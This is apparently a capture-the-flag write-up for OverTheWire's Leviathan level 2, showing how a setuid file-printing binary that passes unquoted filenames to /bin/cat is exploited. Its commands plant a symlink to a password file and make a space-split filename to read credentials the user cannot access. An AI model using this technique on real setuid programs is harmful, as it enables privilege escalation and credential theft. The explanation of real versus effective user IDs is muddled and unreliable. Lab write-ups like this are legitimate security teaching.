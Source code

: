 This being the first level, we are given the username and password to connect to the instance via ssh.

To connect, `ssh leviathan2@leviathan.labs.overthewire.org -p 2223`.

On being prompted for password, enter **leviathan2**.

After a successful connection, we are presented with a shell.


We are informed that the `Data for the levels can be found in the homedirectories`.

So lets list the files present in the home directory.

```
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

The **printfile** file has the setuid bit set and it is executable.


The setuid bit allows the executable to gain the permissions of the owner instead of the user executing it.


In this case, on running the printfile executable, it will gain permissions of leviathan3.


Lets run `printfile` and see what happens.

```
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

It might be too easy, but lets try printing the password from `/etc/leviathan_pass/leviathan3`.

```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

So it won't be that easy.


I suspect that printfile must be using cat to print the file we pass as argument.

We can use `ltrace` to see what library calls the printfile executable uses.


And we will print the password to the current level, as we have access to that file.

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                              = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)                                                   = 0
system("/bin/cat /etc/leviathan_pass/lev"...<leviathan2_password>
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   = 0
+++ exited (status 0) +++
```

We will also run ltrace on printfile to print leviathan3 password. This is to see how the executable differs in execution.

```
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                              = -1
puts("You cant have that file..."You cant have that file...
)                                       = 27
+++ exited (status 1) +++
```

So printfile executable does use `cat` to print the file. But before printing the file it uses `access` to check if it has permissions to read the file.


The `access` function checks permission using the process' real user ID instead of the effective user ID.


Simply put, the real user ID is the one who owns the process, which in this case is leviathan3.


The effective user ID is what the operating system looks at to make a decision on whether or not you are allowed to execute the operation you requested (this does have exceptions). 


So access will get leviathan3's user permissions.

By seeing ltrace outputs, we can confirm that only when access returns 0, the execution will proceed.


The access function has a vulnerability TOCTOU race (Time of Check to Time of Update).

This program, printfile, will call `access` and then it will call `open` (called by the cat binary) to read the file.


In the time between the two calls, the file may change.

A malicious user could substitute a file the user has access to for a symbolic link to something that the user doesn't have access to, between the access and open calls.


Another interesting thing is that when the filename is passed to `cat`, it does not seem to handle spaces in the filename.

Lets confirm this.

We will make a folder in the `/tmp` directory and create a file with spaces in the name.


```
leviathan2@leviathan:~$ mkdir /tmp/<folder_name>
leviathan2@leviathan:~$ touch /tmp/<folder_name>/symlink\ space
leviathan2@leviathan:~$ ltrace ./printfile /tmp/<folder_name>/symlink\ space 
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/<folder_name>/symlink space", 4)                                   = 0
snprintf("/bin/cat /tmp/<folder_name>/symlink spa"..., 511, "/bin/cat %s", "/tmp/<folder_name>/symlink space") = 34
geteuid()                                                                = 12002
geteuid()                                                                = 12002
setreuid(12002, 12002)                                                   = 0
system("/bin/cat /tmp/<folder_name>/symlink spa".../bin/cat: /tmp/<folder_name>/symlink: No such file or directory
/bin/cat: space: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   = 256
+++ exited (status 0) +++
leviathan2@leviathan:~$ 
``` 


Our suspicion has been confirmed. The space in the filename is not handled when passing the filename to `cat`.

We will use this to our advantage.


Lets add a symbolic link to `/etc/leviathan_pass/leviathan3` and name that symbolic link as `symlink`.


```
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/<folder_name>/symlink
leviathan2@leviathan:~$ ls -al /tmp/<folder_name>
total 268
drwxr-sr-x   2 leviathan2 root   4096 Aug 16 09:04 .
drwxrws-wt 214 root       root 266240 Aug 16 09:04 ..
lrwxrwxrwx   1 leviathan2 root     30 Aug 16 09:04 symlink -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Aug 16 09:03 symlink space
```


Now we will pass `symlink space` to `printfile` executable.

The access function will check permissions to read `symlink space`, which it will have as `symlink space` has read permission for everyone.

Then `symlink space` file will be passed to `cat` to read.

But as we know that, spaces in the filename are not handled, `cat` will treat `symlink` and `space` as two different files.

And as symlink is a symbolic link to `/etc/leviathan_pass/leviathan3`, it wil print leviathan3's password.


Lets see this in action.

```
leviathan2@leviathan:~$ ./printfile /tmp/<folder_name>/symlink\ space
<leviathan3_password>
/bin/cat: space: No such file or directory
leviathan2@leviathan:~$ 
```

With this we get the password for the next level.